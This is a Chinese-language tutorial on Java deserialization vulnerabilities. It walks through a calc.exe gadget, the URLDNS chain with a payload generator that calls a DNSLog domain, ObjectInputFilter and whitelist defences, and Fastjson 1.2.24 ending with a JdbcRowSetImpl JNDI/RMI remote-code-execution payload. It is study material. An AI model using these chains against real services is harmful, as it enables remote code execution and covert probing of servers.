# 反序列化

创建类User

```java
package UnserializationDemo;

import java.io.Serializable;

public class User implements Serializable {
    public String name;
    public int age;
    public int sex;
    public User(String name, int age, int sex) {
        this.name = name;
        this.age = age;
        this.sex = sex;
    }

    @Override
    public String toString() {
        return "User{" +
                "name='" + name + '\'' +
                ", age=" + age +
                ", sex=" + sex +
                '}';
    }
}
//注意：要被序列化的类需要实现接口Serializable
```

序列化

```java
package UnserializationDemo;

import java.io.FileNotFoundException;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;

public class SerializationDemo {
    public static void main(String[] args) throws IOException {
        User user = new User("张三", 18, 1);
        SerializationDemo(user);
    }
    public static void SerializationDemo(Object obj) throws IOException {
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("sertest.txt"));
        objectOutputStream.writeObject(obj);

    }

}
//运行后在根目录生成一个sertest.txt的文件，就是序列化后的文件
```

反序列化类

```java
package UnserializationDemo;

import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;

public class UnSerializableDemo {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        Object obj= UnSerializationDemo("sertest.txt");
        System.out.println(obj);
    }
    public static Object UnSerializationDemo(String name) throws IOException, ClassNotFoundException {
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("sertest.txt"));
        User user=(User)objectInputStream.readObject();
        return user;
    }
}
```

因为在User类中有toString方法，当我们输出对象的时候，默认调用了这个方法，所以反序列化后输出，在控制台输出`User{name='张三', age=18, sex=1}`,

如果此时在这个方法中有危险方法执行，比如添加

```java
 try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
```

然后重新序列化并且反序列化，在反序列化的时候就会弹出计算器

还有一种情况就是在User中有readObject方法

当Java反序列化机制遇到一个实现了Serializable接口的类时，它会检查该类是否有自定义的readObject方法：

- 如果有且符合规范（private、正确参数、正确异常声明），反序列化机制会自动调用这个方法
- 如果没有或不符合规范，则只执行默认的反序列化逻辑

所以在User中添加

```java
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        System.out.println("反序列化");
        // 执行默认的反序列化逻辑

    }
```

序列化反序列化后会自动调用readObject从而输出反序列化

此时如果在readObject中自定义了其他危险函数，就会触发安全问题

# UrlDns链

## 分析链

```java
package ConstractChain;

import java.util.HashMap;

public class UrlDnsChain {
    public static void main(String[] args) {
        new HashMap<>();
    }
}
```

进入HashMap.java中，反序列化会默认调用readObject，查看HashMap.java，有readObject，



所以当我们序列化这个类，然后反序列化，就会执行readObject，

查看readObbject是否有可利用的位置

发现



```java
putVal(hash(key), key, value, false, false);
```

查看putVal



查看hash，点进去

看到

```java
  static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

传入的是一个对象，如果传入的对象时URL（别人发现构造好的，知识分析），调用`key.hashCode`,查看hashCode，



进去后查看他的实现



点击进去，发现

```java
    public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
    }
```

如果hashCode = -1，执行`hashCode = handler.hashCode(this);`，查看handler，

定位到`transient URLStreamHandler handler;`,继续定位`URLStreamHandler`,



在他的hashCode中有

> ```
> InetAddress addr = getHostAddress(u);
> ```

> ### 整体流程概览
>
> 1. **起点**：`HashMap` 的 `readObject` 方法。
> 2. **关键调用**：`readObject` -> `putVal` -> `hash(key)` -> `key.hashCode()`。
> 3. **核心利用**：如果这个 `key` 是一个 `java.net.URL` 对象，其 `hashCode` 方法在第一次计算时（`hashCode != -1`）会调用 `getHostAddress(host)` 方法进行 DNS 解析。
> 4. **避免“污染”**：为了在 `put` 操作时不立即触发 DNS，需要预先将 URL 对象的 `hashCode` 字段设置为一个非 -1 的值（通常通过反射修改）。


## 构造链

```java
package ConstractChain;

import java.io.*;
import java.lang.reflect.Field;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.HashMap;

public class UrlDnsChain {
    public static void Serialization(Object obj) throws IOException {
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("dns.txt"));
        objectOutputStream.writeObject(obj);
        objectOutputStream.close();
    }
    public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException {
        HashMap<Object, Integer> objectObjectHashMap = new HashMap<>();
        URL url = new URL("https://ddbxplkdlx.yutu.eu.org");
        Class<? extends URL> aClass = url.getClass();
        Field hashCode = aClass.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url, 11234);
        objectObjectHashMap.put(url,1);
        hashCode.set(url, -1);
        Serialization(objectObjectHashMap);

    }
}
```

```java
package ConstractChain;

import java.io.FileInputStream;
import java.io.FileNotFoundException;
import java.io.ObjectInputStream;

public class UnSerializableDemo {
    public static Object UnSerializableDemo(String name) throws Exception {
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(name));
        Object o=objectInputStream.readObject();
        return o;
    }
    public static void main(String[] args) throws Exception {
        Object o = UnSerializableDemo("dns.txt");

    }
}
```

## 整体架构分析

> 第一段代码：`UrlDnsChain` - **攻击载荷生成器**
>
> 第二段代码：`UnSerializableDemo` - **漏洞触发模拟器**



## 详细技术原理分析

### 1. 载荷生成阶段 (`UrlDnsChain`)

```java
HashMap<Object, Integer> objectObjectHashMap = new HashMap<>();
URL url = new URL("https://ddbxplkdlx.yutu.eu.org");
```
- **创建容器**: HashMap作为反序列化的入口点
- **恶意URL**: 指向攻击者控制的DNSLog域名

```java
Field hashCode = aClass.getDeclaredField("hashCode");
hashCode.setAccessible(true);
hashCode.set(url, 11234);  // 关键操作1: 防止立即触发
```
- **反射技巧**: 修改URL内部状态
- **设置hashCode=11234**: 避免put时触发DNS
- **为什么是11234?**: 任意非-1的值都可以

```java
objectObjectHashMap.put(url, 1);  // 安全操作
```
- **此时安全**: 因为hashCode≠-1，直接返回值，不计算新hash
- **URL.hashCode()逻辑**:
  ```java
  if (hashCode != -1) return hashCode;  // 直接返回11234
  // 不会执行到handler.hashCode(this)的DNS触发部分
  ```

```java
hashCode.set(url, -1);  // 关键操作2: 为触发做准备
```
- **恢复为-1**: 确保反序列化时重新计算hashCode
- **序列化时状态**: URL对象的hashCode字段值为-1

### 2. 漏洞触发阶段 (`UnSerializableDemo`)

```java
ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(name));
Object o = objectInputStream.readObject();  // 触发点
```

#### 反序列化详细调用链：

1. **HashMap.readObject()**
   ```java
   private void readObject(java.io.ObjectInputStream s)
       throws IOException, ClassNotFoundException {
       // 读取容量、加载因子等
       for (int i = 0; i < mappings; i++) {
           K key = (K) s.readObject();    // 反序列化URL对象
           V value = (V) s.readObject();  // 反序列化Integer对象
           putVal(hash(key), key, value, false, false);  // 关键调用
       }
   }
   ```

2. **HashMap.hash(key)**
   ```java
   static final int hash(Object key) {
       int h;
       return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
   }
   ```

3. **URL.hashCode()** - **核心触发点**
   ```java
   public synchronized int hashCode() {
       if (hashCode != -1)  // 此时hashCode=-1，条件不成立
           return hashCode;
       hashCode = handler.hashCode(this);  // 执行这里！
       return hashCode;
   }
   ```

4. **URLStreamHandler.hashCode(URL u)**
   ```java
   protected int hashCode(URL u) {
       int h = 0;
       // 生成主机部分hash
       InetAddress addr = getHostAddress(u);  // DNS触发！
       if (addr != null) {
           h += addr.hashCode();
       } else {
           h += u.getHost().hashCode();
       }
       return h;
   }
   ```

5. **URLStreamHandler.getHostAddress(URL u)**
   ```java
   protected InetAddress getHostAddress(URL u) {
       String host = u.getHost();
       if (host == null || host.equals("")) {
           return null;
       } else {
           return InetAddress.getByName(host);  // 实际DNS查询
       }
   }
   ```

## 技术要点深度解析

### 为什么这个链有效？

1. **利用Java序列化机制**
   - HashMap实现了Serializable接口
   - URL也实现了Serializable接口
   - 整个对象图都可以被序列化/反序列化

2. **利用HashMap反序列化行为**
   - HashMap反序列化时会重新计算每个元素的hash值
   - 这是为了确保数据结构的完整性

3. **利用URL的hashCode延迟计算**
   - URL的hashCode在第一次访问时计算
   - 计算过程包含DNS解析操作

### 反射操作的精妙之处

**问题**: 如果直接put URL：
```java
URL url = new URL("http://malicious.com");
map.put(url, 1);  // 立即触发DNS，暴露攻击！
```

**解决方案**: 反射修改内部状态
1. **临时禁用**: `hashCode.set(url, 非-1值)` → put时不触发
2. **恢复启用**: `hashCode.set(url, -1)` → 反序列化时触发

### 攻击特征：
- **低权限要求**: 只需要反序列化操作权限
- **网络流量**: 产生DNS查询记录
- **系统影响**: 几乎为零（只发起DNS查询）

## 防御建议

### 代码层面：
```java
// 使用ObjectInputFilter（JDK9+）
ObjectInputStream ois = new ObjectInputStream(input);
ois.setObjectInputFilter(filter);

// 或者使用白名单机制
public class SafeObjectInputStream extends ObjectInputStream {
    private static final Set<String> whitelist = Set.of(
        "java.lang.String", "java.lang.Integer", "java.util.ArrayList"
    );
    
    @Override
    protected Class<?> resolveClass(ObjectStreamClass desc) {
        if (!whitelist.contains(desc.getName())) {
            throw new InvalidClassException("Unauthorized deserialization");
        }
        return super.resolveClass(desc);
    }
}
```

### 架构层面：
1. **输入验证**: 对所有反序列化数据源进行校验
2. **网络隔离**: 限制不必要的出网连接
3. **日志监控**: 监控异常的反序列化操作
4. **依赖管理**: 避免使用已知存在漏洞的库


# Fastjson反序列化

## FastJson介绍

FastJSON 是阿里巴巴开发的一款高性能、功能完善的 Java 语言 JSON 处理库，主要用于实现 Java 对象与 JSON 格式之间的相互转换（序列化与反序列化）。它以速度快、使用简单、功能丰富等特点被广泛应用于 Java 开发中，尤其在分布式系统、微服务架构中处理数据交换场景非常常见。

主要功能：**对象与 JSON 互转**

- 序列化：将 Java 对象（包括普通类、集合、数组等）转换为 JSON 字符串。
- 反序列化：将 JSON 字符串转换为指定的 Java 对象或数据结构。

## 代码

### pom.xml中添加

```xml
 <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.24</version>
 </dependency>
```

### 创建User.java

```java
package FastjsonUnserializationDemo.One;

import java.io.Serializable;

public class User implements Serializable {
    public String name;
    public int age;
    public int sex;
    public User(){
        System.out.println("无参构造");
    }

    public User(String name, int age, int sex) {
        System.out.println("调用有参构造");
        this.name = name;
        this.age = age;
        this.sex = sex;
    }

    public String getName() {
        System.out.println("getName");
        return name;
    }

    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }

    public int getAge() {
        System.out.println("getAge");
        return age;
    }

    public void setAge(int age) {
        System.out.println("setAge");
        this.age = age;
    }

    public int getSex() {
        System.out.println("getSex");
        return sex;
    }

    public void setSex(int sex) {
        System.out.println("setSex");
        this.sex = sex;
    }
public void chat(){
        System.out.println("hello,调用chat方法");
}
    @Override
    public String toString() {
        System.out.println("调用toStrimg()");
        return "User{" +
                "name='" + name + '\'' +
                ", age=" + age +
                ", sex=" + sex +
                '}';
    }
}
```

### 序列化

```java
package FastjsonUnserializationDemo.One;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.serializer.SerializerFeature;
public class FastjsonDemo {
/**
 * 主方法，程序的入口点
 * @param args 命令行参数
 */
    public static void main(String[] args) {
    // 创建一个User对象，设置name为"zifei"，age为12，gender为1
        User user=new User("zifei",12,1);
    // 使用FastJSON库将User对象转换为JSON字符串
        String json1= JSON.toJSONString(user);
    // 打印JSON字符串到控制台
        System.out.println(json1);
    }

}
```

执行结果：

> 调用有参构造
> getAge
> getName
> getSex
> {"age":12,"name":"zifei","sex":1}

原理：

> 使用JSON.toJSONString(user)将User对象转换为JSON字符串。在这个过程中，Fastjson会通过反射调用User对象的getter方法来获取属性值：
> 调用getName()方法获取name属性，输出"getName"
> 调用getAge()方法获取age属性，输出"getAge"
> 调用getSex()方法获取sex属性，输出"getSex"
> 最终输出的JSON字符串是：{"age":12,"name":"zifei","sex":1}
> 这个过程的原理是：
> Fastjson通过Java的反射机制来访问对象的属性
> 它会自动查找并调用符合JavaBean规范的getter方法（以get开头的方法）来获取属性值
> 然后将这些属性值按照JSON格式序列化成字符串

### 反序列化

```java
package FastjsonUnserializationDemo.One;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.serializer.SerializerFeature;

public class FastjsonDemo {
/**
 * 主方法，程序的入口点
 * @param args 命令行参数
 */
    public static void main(String[] args) {
    // 创建一个User对象，设置name为"zifei"，age为12，gender为1
        User user=new User("zifei",12,1);
    // 使用FastJSON库将User对象转换为JSON字符串
        String json1= JSON.toJSONString(user);
    // 打印JSON字符串到控制台
        System.out.println(json1);
        System.out.println("反序列化操作");
        //反序列化操作1
        User user1= JSON.parseObject(json1,User.class);
        System.out.println(user1);
        System.out.println("=====================================================");
        //反序列化操作2
        JSONObject jsonObject= JSON.parseObject(json1);
        System.out.println(jsonObject);
        System.out.println("=====================================================");
        //反序列化操作3
        Object  user2= JSON.parse(json1);
        System.out.println(user2);
    }

}
```

运行结果：

```txt
调用有参构造
getAge
getName
getSex
{"age":12,"name":"zifei","sex":1}
反序列化操作
无参构造
setAge
setName
setSex
调用toStrimg()
User{name='zifei', age=12, sex=1}
=====================================================
{"sex":1,"name":"zifei","age":12}
=====================================================
{"sex":1,"name":"zifei","age":12}
```

原理：

> `反序列化操作1: User user1= JSON.parseObject(json1,User.class);`
> 执行原理：
> Fastjson首先调用User类的无参构造函数创建一个新的User对象实例，输出"调用无参构造"
> 然后通过反射调用相应的setter方法来设置对象的属性值：
> 调用setName()方法设置name属性，输出"setName"
> 调用setAge()方法设置age属性，输出"setAge"
> 调用setSex()方法设置sex属性，输出"setSex"
> 最后调用toString()方法输出对象信息，输出"调用toStrimg()"
> `反序列化操作2: JSONObject jsonObject= JSON.parseObject(json1);`
> 执行原理：
> 这个操作将JSON字符串解析为JSONObject对象
> JSONObject是一个键值对集合，类似于Map，它不会创建User对象
> 直接打印JSONObject对象，输出其包含的键值对内容
> `反序列化操作3: User user2= JSON.parseObject(jsonObject.toJSONString(), User.class);`
> 执行原理：
> 首先调用jsonObject.toJSONString()将JSONObject转换回JSON字符串
> 然后和操作1一样，调用User类的无参构造函数创建User对象实例，输出"调用无参构造"
> 通过反射调用setter方法设置属性值：
> 调用setName()方法设置name属性，输出"setName"
> 调用setAge()方法设置age属性，输出"setAge"
> 调用setSex()方法设置sex属性，输出"setSex"
> 最后调用toString()方法输出对象信息，输出"调用toStrimg()"

### WriteClassName

在序列化的代码中添加代码为：

`String json1= JSON.toJSONString(user,SerializerFeature.WriteClassName);`

然后序列化和饭序序列化的结果为

```
调用有参构造
getAge
getName
getSex
{"@type":"FastjsonUnserializationDemo.One.User","age":12,"name":"zifei","sex":1}
反序列化操作
无参构造
setAge
setName
setSex
调用toStrimg()
User{name='zifei', age=12, sex=1}
=====================================================
无参构造
setAge
setName
setSex
getAge
getName
getSex
{"sex":1,"name":"zifei","age":12}
=====================================================
无参构造
setAge
setName
setSex
调用toStrimg()
User{name='zifei', age=12, sex=1}
```

分析：

> 添加SerializerFeature.WriteClassName后的输出分析：
>  序列化过程：
> 当使用JSON.toJSONString(user, SerializerFeature.WriteClassName)时，Fastjson会在生成的JSON字符串中包含对象的类型信息
> 输出的JSON字符串会类似于：{"@type":"FastjsonUnserializationDemo.One.User","age":12,"name":"zifei","sex":1}
> 其中"@type"字段包含了完整的类路径信息
>  反序列化过程分析：
> 反序列化操作1: User user1= (User)JSON.parse(json1);
> 使用JSON.parse()方法直接解析包含类名信息的JSON字符串
> Fastjson根据"@type"字段中的类路径信息自动识别并创建相应类型的对象
> 由于JSON中包含了类型信息，不需要显式指定目标类型，可以直接转换为User对象
> Fastjson会调用User类的无参构造函数创建实例，输出"调用无参构造"
> 然后通过setter方法设置属性值，输出"setName"、"setAge"、"setSex"
> 最后调用toString()方法输出对象信息，输出"调用toStrimg()"
> 反序列化操作2: JSONObject jsonObject= JSON.parseObject(json1);
> 将包含类名信息的JSON字符串解析为JSONObject对象
> JSONObject会保留"@type"字段和其他属性字段
> 打印JSONObject时会显示完整的键值对，包括类名信息
> 反序列化操作3: User user2= JSON.parseObject(jsonObject.toJSONString(), User.class);
> 首先将JSONObject转换为JSON字符串，这个字符串仍然包含"@type"信息
> 然后使用JSON.parseObject()方法将其解析为User对象
> 过程与操作1类似，会调用无参构造函数和setter方法
> 最后输出对象信息
> WriteClassName特性的意义：
> 自动类型识别：在反序列化时不需要手动指定目标类型，Fastjson会根据"@type"字段自动创建相应类型的对象
> 支持多态：在处理继承关系或接口时特别有用，可以正确还原对象的实际类型
> 安全性考虑：在实际应用中需要注意，恶意构造的"@type"字段可能导致安全问题，因为它会创建任意类的实例
> 这种机制使得Fastjson能够更加智能地处理序列化和反序列化过程，特别是在处理复杂对象结构或多态场景时非常有用。

> 添加后在序列化的时候会保持User类格式，也就是会固定类
>
> 此时反序列化parse会调用set方法
>
> parseObject会调用get和set方法
>
> 反序列化制定类的时候，会默认调用set方法

## 漏洞

> 1、序列化固定类后：
>
> parse方法在调用时会调用set方法
>
> parseObject在调用时会调用set和get方法
>
> 2、反序列化指定类后：
>
> parseObject在调用时会调用set方法
>
> 所以fastjson反序列化漏洞利用就是看set和get方法,在追踪链的时候也是

```java
package FastjsonUnserializationDemo.One;

import com.alibaba.fastjson.JSON;

public class FastjsonRce {
    public static void main(String[] args) {
//        Class.forName("com.sun.rowset.JdbcRowSetImpl");
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        String payload = "{" +
                "\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
                "\"dataSourceName\":\"rmi://127.0.0.1:1099/cxzyc6\", " +
                "\"autoCommit\":true" +
                "}";
        JSON.parse(payload);

    }
}
```

分析：

>  System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
>
> 这行代码设置了JNDI加载远程代码的信任，允许从远程服务器加载类。在较新的JDK版本中，默认情况下这个属性是false，需要手动设置为true才能加载远程代码。

在这个代码中通过JSON.parse()来反序列化payload字符串，

在字符串中，

> @type：指定要反序列化的类为com.sun.rowset.JdbcRowSetImpl
> dataSourceName：指定远程RMI服务地址
> autoCommit：触发JdbcRowSetImpl的setter方

将类的类型通过`@type`指定反序列化时需要实例化的类com.sun.rowset.JdbcRowSetImpl，并且将值dataSourceName和autoCommit分别赋值。

JSON.psrse()默认调用set()函数，所以分析setDataSourceName和serAutoCommit函数

